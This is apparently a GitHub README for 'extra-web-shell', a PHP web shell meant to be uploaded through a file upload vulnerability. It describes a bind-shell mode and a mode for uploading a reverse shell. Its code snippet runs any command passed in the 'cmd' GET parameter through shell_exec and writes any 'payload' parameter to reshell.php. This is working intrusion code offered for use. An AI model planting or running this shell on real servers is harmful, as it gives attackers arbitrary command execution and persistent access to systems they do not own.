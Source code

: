 # extra-web-shell

## What is this?
#### this is a simple web shell, contains both, bind and option of upload a reverse shell
[extra-shell](https://raw.githubusercontent.com/hamza07-w/extra-web-shell/main/backg.png)
## How can this help me?
#### well, sometimes when you find a file upload vulnerability, you will find that you can't bypass the extension eaisy, for example you have to try many extension methods such as, php, php5, jpg.php ... this extra web shell, will help you to upload any kind of files start from php, txt ...etc

## Bind shell section
#### this part of the tool, you can execute any command on the server without any problem, and the output will be visible in the output border

## Create file or reverse shell section
#### here you can upload any file just copy the content of this file and the output will give you the link of it to acssess
#### you can edit the name and the extension in the source code from "reshell.php" to what you like
```php
<?php
	if(isset($_GET['cmd']))
	{
	    $output = shell_exec($_GET['cmd']);
	}
	elseif (isset($_GET['payload'])) {
		file_put_contents("reshell.php", $_GET['payload']);
		$path = "reshell.php";
	}	
?>

```

## LICENCE
[MIT](https://github.com/hamza07-w/extra-web-shell/blob/main/LICENSE)
